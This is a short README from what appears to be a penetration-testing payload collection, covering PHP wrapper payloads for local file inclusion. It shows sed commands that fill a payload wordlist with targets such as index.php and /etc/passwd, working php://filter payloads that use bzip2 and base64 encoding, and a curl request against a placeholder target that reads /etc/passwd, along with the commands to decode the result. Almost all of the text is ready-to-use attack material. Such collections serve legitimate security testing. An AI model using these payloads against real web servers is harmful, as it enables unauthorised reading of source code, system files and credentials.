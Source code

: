 # LFI PHP wrapper 
- The payload list given in `LFI-PHP-wrapper.txt` should be modified by replacing the placedholder (`*`) with a common filename, such as `index.php` or `/etc/passwd`.

```shell
$ sed 's/*/index.php/g' [lfi-php-wrapper-txt-filename] > lfi-php-wrappers-custom.txt
$ sed 's/*/\/etc\/passwd/g' [lfi-php-wrapper-txt-filename] > lfi-php-wrappers-custom.txt
```

Eg.

1. `php://filter/convert.base64-encode/resource=*` -> `php://filter/convert.base64-encode/resource=index.php`
2. `php://filter/convert.base64-encode/resource=*` -> `php://filter/convert.base64-encode/resource=/etc/passwd`
   
> For more comprehensive testing, the placeholder can be combined with the payload in dedicated LFI/path-traversal payload list (`LF.md`, etc.). This would effectively combine the capabilities of both wordlists.



## Examples of working payload
1. ***bzip2 + base64 encode***
```php
php://filter/bzip2.compress|convert.base64-encode/resource=*
php://filter/read=bzip2.compress|convert.base64-encode/resource=*
```
- This will output a base64-encoded value that gives a bzip2 compressed data when decoded

Eg.
```shell
$ curl https://[target].com/page?=php://filter/bzip2.compress|convert.base64-encode/resource=/etc/passwd > output.txt

# extract base64 string
$ cat output.txt

$ echo [base64 string] | base64 -d | bzip2 -d
...
```

